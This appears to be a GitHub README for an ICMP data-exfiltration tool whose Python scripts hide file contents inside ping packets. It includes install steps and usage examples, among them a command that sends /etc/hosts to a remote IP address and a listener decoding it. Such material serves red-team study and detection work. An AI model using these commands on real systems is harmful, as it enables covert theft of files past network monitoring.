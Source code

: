 # ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Requirements
Need to have the [Scapy] library installed to sniff packets on the network.

### Installations
```bash 

pip3 install scapy

```
or
```bash 

sudo apt install python3-scapy

```

## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

┃  [!] Usage icmp_exfiltration.py <Interface-Name>                             
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

┃  [!] Usage icmp_sendData.py <IP-Address> <File-Name>                       
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py wlan0

┃ [*] Listening for any incoming connections...

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

┃  [*] Trying to send file...

┃  [*] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" script by providing the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

